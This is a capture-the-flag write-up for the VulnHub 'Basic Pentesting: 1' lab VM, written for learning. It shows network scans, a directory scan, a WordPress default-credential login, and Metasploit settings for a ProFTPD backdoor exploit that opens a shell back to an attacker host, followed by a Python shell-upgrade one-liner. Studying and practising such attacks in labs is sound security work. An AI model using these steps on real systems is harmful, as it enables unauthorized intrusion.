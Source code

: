# Basic Pentesting: 1 Writeup

## About the Capture the Flag 
Name: Basic Pentesting: 1\
Release date: 8 Dec 2017\
Author: [Josiah Pierce](https://www.vulnhub.com/author/josiah-pierce,569/)\
Series: [Basic Pentesting](https://www.vulnhub.com/series/basic-pentesting,143/)\
Link: [LINK TO CTF](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Start of writeup

### Introduction
This CTF is one of the first CTFs I've done whilst diving deeper into cybersecurity, it's a very simple, and beginner friendly CTF which serves the purpose of showing basic tools used to ennumerate a network and target. 

### Goal of the CTF
The goal of this CTF is to remotely attack the Virtual Machine and gain root access/privileges. 

### Gaining root access
Since there's only one goal during this CTF challenge, gaining root access of the VM, the goal is simple. The first step is to ennumerate the network and the target. Enumeration is the process of gaining more knowledge about the target you're attacking. Think about things like user names, machine names, network resources, open ports, versions of services running on the system. With the information gathered in this phase weak points of the system are exposed and points of entry are established.

The enumeration process during this CTF consisted of doing a [Netdiscover](https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/) scan to see what the IP address is of the VM machine. 

```python
netdiscover -r 192.168.0.0
```

The scan returns the IP adress of 192.168.0.16, this will be the IP we'll be working with. The next step is to do an NMAP scan, NMAP is a scanning tool which allows us to map out the ports used on the target, what they're running and what version of it is running. For more information about NMAP, the different flags etc, visit [the NMAP website](https://nmap.org). For our CTF we use the following command:

```python
nmap -sC -sV -sS -AT4 192.168.0.16
```

![bpen_nmap.jpg](./images/bpen_nmap.jpg)

The scan shows that there are three ports: 21,22 and 80. Usually bu default, these ports run FTP, SSH and HTTP respectively. The first thing I do is try to see if there's anything interesting to find at the FTP part of things. The common "anonymous" user exists but the password is unknown, trying the usual things as anonymous/anonymous didn't work either. We'll leave FTP be for now.\

The next logical step is visting the website ran on port 80. Upon visiting the website we're greeted with a basic HTML page, saying it works.

![landing_page.jpg](./images/landing_page.jpg)

When checking the page's source code, which is often overlooked, there's nothing noticeable either. Seeing there's no buttons or links you can click to scout the website further, it's time for a directory buster tool. We'll use dirb for this. DIRB is a web content scanner it looks for existing and hidden Web Objects. You do this by launching an attack to a site where it goes through a common wordlist to check if they apply to that target. /admin for example is a commonly used Web Object which usually is hidden but existing.

```python
dirb http://192.168.0.16
```
![dirb_find.jpg](./images/dirb_find.jpg)

This scan highlighted a lot of interesting things, it shows an interesting directory named "/secret". Also several WP components came to light, indicating that there is a WordPress website in the secret folder. Upon going to the directory you're greeted with a WordPress website with a login and some blog posts, navigate to the login page down at the page. Almost all well known networking devices and applications come preconfigured with a default password and username. Sometimes users of these devices and applications forget to change the password of this user or forget to remove this user entirely. In the case of WordPress the default name and password is "admin" & "admin". When we try this on this website, it actually works and it seems like the developers forgot to change the password to something different. Thanks to this mistake we now got access to the admin panel of the WordPress website. In other circumstances there's a possiblity to use the WPSCAN tool, a WordPress security scanner which can brute force usernames and passwords for WordPress.

![admin_panel.jpg](./images/admin_panel.jpg)

One of the things you can do from here is upload a malicious PHP file that contains a shell which allows for commands to be executed from a shell on the target host. But I decided to see if there was other ways in. I decided to run a searchsploit request for the FTP version of the software running on port 21 earlier. Searchsploit looks for vulnerabilities in outdated versions of software.

```python
searchsploit ProFTPD 1.3.3c
```

![searchsploit_ftp.jpg](./images/searchsploit_ftp.jpg)

As shown on the image the search resulted in finding a succesful backdoor exploit. The next step is by starting up the msfconsole and run the said exploit. The msfconsole is part of Metasploit. It allows you to efficiently use all the options available in Metasploit.

![msfconsole.jpg](./images/msfconsole.jpg)

After setting up all the information for the exploit, the listening host (us), the target host, what port to target and what port we wanna listen on, it's time to execute the selected exploit. We executed the following command to set up the exploit:

```python
set RHOSTS 192.168.0.16
set payload 3
set LHOST 192.168.0.15
exploit
```

![msfconsole_exploit.jpg](./images/msfconsole_exploit.jpg)

As you can see command shell is opened, although there's one small problem, theres no command line to be seen. To fix this, we need a little bit of Python code. After executing this line of code, we goot root access to the machine!!

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![pythonroot.jpg](./images/pythonroot.jpg)

### Conclusion
The Basic Pentesting - 1 CTF was very easy to complete. During this CTF we managed to exploit different parts of the system. The HTTP website by using a directory attack, the WordPress website by using WPSCAN/default credentials and of course using Metasploit to exploit FTP. Also some Python code was used to go from a limited shell to full root access. There were different approaches to this but I found using this approach to gaining root access did it for me. Good luck and have fun with this CTF!



